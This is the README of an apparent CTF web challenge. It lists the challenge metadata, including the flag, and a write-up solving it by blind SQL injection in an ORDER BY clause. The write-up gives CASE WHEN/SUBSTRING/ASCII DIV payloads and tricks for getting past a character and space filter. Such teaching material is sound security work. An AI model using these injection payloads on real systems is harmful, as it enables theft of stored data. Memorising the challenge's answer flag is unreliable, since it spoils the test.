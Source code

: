 # Data Analeaktics

| Key            | Value                                                                                        |
|----------------|----------------------------------------------------------------------------------------------|
| Challenge Name | Data Analeaktics                                                                             |
| Author         | wolfishLamb                                                                                  |
| Category       | Web                                                                                          |
| Description    | Exploring a massive dataset is a headache, and now you're telling me that my flag is leaked? |
| Challenge Type | Dynamic Docker                                                                               |
| Docker Image   | sunctf_web_data-analeaktics (port 5005)                                                      |
| Flag           | sunctf{1nJ3c7ion_1n_0rd3R_bY_cL@Us3}                                                         |
| Score          | ???                                                                                          |

*File(s) in `attachments/` are distributed to the participants.*

![Screenshot](docs/screenshot.png)

## Solution

<details>
<summary>Click to expand</summary>

The application accepts user input in the form of a query parameter to sort a list of customers. This input is directly
used in an SQL query, which creates an opportunity for blind SQL injection in the `ORDER BY clause`. The objective is to
manipulate the query to get the flag from the `flag` table.

A general approach to solving this challenge is to use if-else statements to determine the flag character by character.
If the character matches the expected character, we order by `id` column; otherwise, we order by `name` column. A
demonstration:

```sql
SELECT *
FROM customers
ORDER BY
/*                                   Change       v   and  v      to brute force the flag */
    CASE WHEN SUBSTRING((SELECT value FROM flag), 1, 1) = 's' THEN id ELSE name END
LIMIT 10;
```

By looking at the order of records returned, we can determine whether the statement is true or false. This allows us to
brute force the flag by writing a simple script.

Now is to deal with the sanitization.

We can tell from the code provided that `(` and `)` are the only two symbols allowed. Here are some workarounds to
bypass this:

- `SUBSTRING(... FROM 1 FOR 1)` instead of `SUBSTRING(..., 1, 1)`.
- `ASCII(SUBSTRING(...)) DIV <ASCII_CODE_OF_A_CHAR>` instead of comparing with the letter itself. `DIV` performs integer
  division.

How `DIV` works here?

Let's say one of the characters in the flag is `s` (ASCII code 115). We make our guesses from the lowest possible ASCII
printable ` ` (ASCII code 32) all the way up to `~` (ASCII code 126). Notice,

```
ASCII('s') DIV 32 = 3
ASCII('s') DIV 33 = 3
ASCII('s') DIV 34 = 3
...
ASCII('s') DIV 114 = 1
ASCII('s') DIV 115 = 1
ASCII('s') DIV 116 = 0
```

We will first get a false when our guess is one more than the actual ASCII code of the character.

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and     vvv      to brute force the flag */
    CASE WHEN ASCII(SUBSTRING((select value from flag) from 1 for 1)) div 116 then id else name end
LIMIT 10;
```

One last sanitation: maximum one space character is allowed.

This can be bypassed by surrounding any subqueries with `()`. Our final payload:

```sql
SELECT *
FROM customers
ORDER BY
/*                                            Change        v     and      vvv     to brute force the flag */
    CASE WHEN(ASCII(SUBSTRING((select(value)from(flag))from(1)for(1))))div(116)then(id)else(name)end
LIMIT 10;
```

Finally, write a script to get it done. See [how we do it](docs/solve.py).

> Related: *SQL Injection*

</details>

Note: `docs/solve.py` can be used to check if the challenge is working as intended. It will solve the challenge and get
the flag.
